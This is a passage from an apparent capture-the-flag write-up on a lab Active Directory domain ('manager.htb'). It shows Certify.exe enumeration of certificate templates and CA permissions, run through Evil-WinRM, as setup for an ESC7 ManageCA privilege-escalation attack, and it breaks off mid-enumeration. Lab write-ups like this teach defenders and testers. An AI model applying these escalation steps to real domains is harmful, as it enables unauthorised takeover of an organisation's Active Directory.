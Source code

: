 ```
                                      MANAGER\Domain Controllers    S-1-5-21-4078382237-1492182817-2568127209-516
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
                                      MANAGER\Enterprise Read-only Domain ControllersS-1-5-21-4078382237-1492182817-2568127209-498
                                      NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERSS-1-5-9
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
```

I know it is a long long output but couple of things I will break down for my understanding. The output above is the list of Certificate Templates. Checkout the `Template Name` field for each output. Now, all these certificate has few key thing enabled. We will call it `Certificate Parameters` for our understanding. So for example `msPKI-Certificate-Name-Flag`, `mspki-enrollment-flag`, `Authorized Signatures Required` , `pkiextendedkeyusage` and `mspki-certificate-application-policy`. Okay following to that it lists the Permission that each of this certificate has under the `Permission` field. Cool. Now let's keep digging. 

We have following Certificate Template listed in the output above where the `Client Authentication` is enabled for the `Extended Key Usage`, Allow `Domain Admins` rights in the `Permission` section and `Authorized Signature Require` Set to Zero. Those Certificate Templates are `User`, `Administrator`, `Machine`, `DomainController`, `DomainControllerAuthentication` and `KerberosAuthentication`. We might going to abuse one of this certificate template.

###### `ESC7 Attack - ADCS Exploitation`

```
The Certificate Authority (ESC7): "The two main rights here are the ManageCA right and the ManageCertificates right, which translate to the “CA administrator” and “Certificate Manager” (sometimes known as a CA officer) respectively. known as Officer rights)"  https://posts.specterops.io/certified-pre-owned-d95910965cd2
```

Executing `ESC7` ADCS to escalate privileges in the domain require following things.
Our CA should allow Low Privilege User (in our case `Raven`) the `ManageCA` Permission. If we have this permission, than we can add other permission like `ManageCertificates`. Let's check it out.
```
*Evil-WinRM* PS C:\ProgramData> .\Certify.exe find /vulnerable /ca:dc01.manager.htb\manager-DC01-CA 
<<Snipped>>
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Deny   ManageCA, Read                             MANAGER\Operator              S-1-5-21-4078382237-1492182817-2568127209-1119
      Allow  Enroll                                     NT AUTHORITY\Authenticated UsersS-1-5-11
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
```